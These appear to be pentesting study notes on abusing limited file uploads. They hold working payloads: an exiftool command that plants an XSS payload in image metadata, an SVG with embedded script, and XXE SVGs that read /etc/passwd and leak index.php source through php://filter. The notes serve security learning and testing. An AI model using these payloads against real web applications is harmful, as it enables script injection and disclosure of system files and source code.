 ## Limited File Uploads

Certain file types, like **SVG, HTML, XML**, and even some image and document files, may allow us to introduce new vulnerabilities to the web application by uploading malicious versions of these files

### HTML Allowed

### Image Metadata

If image metadata is used anywhere can execute js or anything like so:

```bash
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg

exiftool HTB.jpg
```

Furthermore, if we change the image's MIME-Type to **text/html**, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.

Can also use SVG.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE

**SVG** file to leak /etc/passwd

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Once the above SVG image is uploaded and viewed, the XML document would get processed, and we should get the info of (/etc/passwd) printed on the page or shown in the page source. Similarly, if the web application allows the upload of XML documents, then the same payload can carry the same attack when the XML data is displayed on the web application.

To read source code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
